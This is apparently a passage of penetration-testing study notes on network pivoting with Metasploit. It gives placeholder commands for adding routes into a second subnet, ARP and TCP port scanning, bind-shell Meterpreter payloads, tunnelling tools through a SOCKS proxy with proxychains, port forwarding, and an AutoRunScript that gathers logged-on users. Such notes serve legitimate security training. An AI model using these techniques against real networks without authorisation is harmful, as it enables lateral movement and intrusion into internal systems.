 - can also use route and add to create a path to the second network subnet

```
route add x.x.x.x.x/xx 11
route print
```

- You can also scan for other systems

```
run arp_scanner -r x.x.x.x/24
```

- scan second network

```
background
use auxiliary/scanner/portscan/tcp
set RHOSTS x.x.x.x/24
set PORTS
run
```

- When targetting hosts in the second network, you must use a bind shell , a reverse shell wouldn't find it's way to the lisener

```
use exploit/whatever/you/need
set payload windows/meterpreter/bind_tcp
```

- Can use a SOCKS proxy to tunnel through the pivot
  - first use the module and use localhost for the proxy
  - Then configure proxychains to use the SOCKS poryx
  - Then use the proxychains command to run an application you want to tunnel

```
use auxiliary/server/socks4a
set SRVHOST 127.0.0.1
exploit -j

echo "socks4 127.0.0.1 8080" >> /etc/proxychains.conf
proxychains <tool> <target IP>
```

- Can portfoward from inside meterpreter

```
portfwd add -l <localport> -p <target port> -r <target IP>
```



## AutoRunScript

- AutoRunScript can run a script once meterpreter is established

```
set AutoRunScript windows/gather/enum_logged_on_users
```

- autoRunScript can also be a custom list of commands
  - autoruncmds.rc